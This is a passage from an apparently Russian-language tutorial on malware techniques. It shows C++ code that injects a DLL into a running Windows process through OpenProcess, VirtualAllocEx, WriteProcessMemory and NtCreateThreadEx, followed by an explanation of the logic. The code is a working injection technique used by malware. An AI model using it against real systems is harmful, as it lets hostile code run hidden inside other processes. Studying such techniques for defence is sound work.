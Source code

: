 ```cpp
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed :( exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, evilLen, 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, evilDll, evilLen, rl); // NULL);

    ntCTEx(&ht, 0x1FFFFF, NULL, ph, 
    (LPTHREAD_START_ROUTINE) lb, rb, 
    FALSE, NULL, NULL, NULL, NULL);

    if (ht == NULL) {
      CloseHandle(ph);
      printf("ThreadHandle failed :( exiting...\n");
      return -2;
    } else {
      printf("successfully inject via NtCreateThreadEx :)\n");
    }
    
    WaitForSingleObject(ht, INFINITE);

    CloseHandle(ht);
    CloseHandle(ph);
  }
  return 0;
}

```

Давайте разберем логику этого кода. Как видно, сначала я использую функцию `FindMyProc` из одного из моих [прошлых](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) постов. Она довольно проста: принимает имя процесса, в который мы хотим выполнить инъекцию, пытается найти его в памяти операционной системы, и если процесс существует и запущен, функция возвращает его ID.   

Затем, в функции `main` логика такая же, как в моем посте про [классическую DLL-инъекцию](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html). Единственное отличие - мы используем функцию `NtCreateThreadEx` вместо `CreateRemoteThread`:    
